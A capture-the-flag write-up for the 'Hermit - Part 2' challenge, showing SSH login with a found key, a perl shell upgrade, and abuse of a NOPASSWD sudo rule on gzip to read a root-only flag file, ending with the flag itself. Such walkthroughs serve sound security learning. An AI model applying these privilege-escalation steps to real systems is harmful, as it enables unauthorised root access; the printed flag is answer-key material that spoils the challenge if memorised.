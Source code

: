 # Hermit - Part 2

>Who are you? How did you get here? You better zip on out of here or else.
>
>104.197.195.221:8087 34.121.84.161:8087
>
>Created by Cobchise#6969
>
>(The server is likely not broken. If you really think it's broken, create a support ticket.)

>## Hint1 
>Try enumeration

>## Hint2
>The port you are looking for has been forwarded to 8087.

```bash
$ cat id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEnpZMOpI29kra1VLybw+iMSXyAVxh0q146WxMVrX7ZT hermit@local
```

```bash
$ ssh -i id_ed25519 hermit@104.197.195.221 -p 8087
Linux 162d488eac13 4.19.0-16-cloud-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 28 15:14:43 2021 from 180.150.57.6
-sh: 35: set: Illegal option -o history
$ whoami
hermit
```

## upgrading shell
```
$ which python3
$ which python
$ which perl
/usr/bin/perl

$ perl -e 'exec("/bin/bash")'
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LANG = "en_CA.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
hermit@162d488eac13:~/flag$ 

```

## sudo -l

```bash
hermit@162d488eac13:~/flag$ sudo -l
Matching Defaults entries for hermit on 162d488eac13:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User hermit may run the following commands on 162d488eac13:
    (ALL : ALL) ALL
    (root) NOPASSWD: /bin/gzip -f /root/rootflag.txt -t

hermit@162d488eac13:~/flag$ sudo /bin/gzip -f /root/rootflag.txt -t
UMASS{a_test_of_integrity}
```
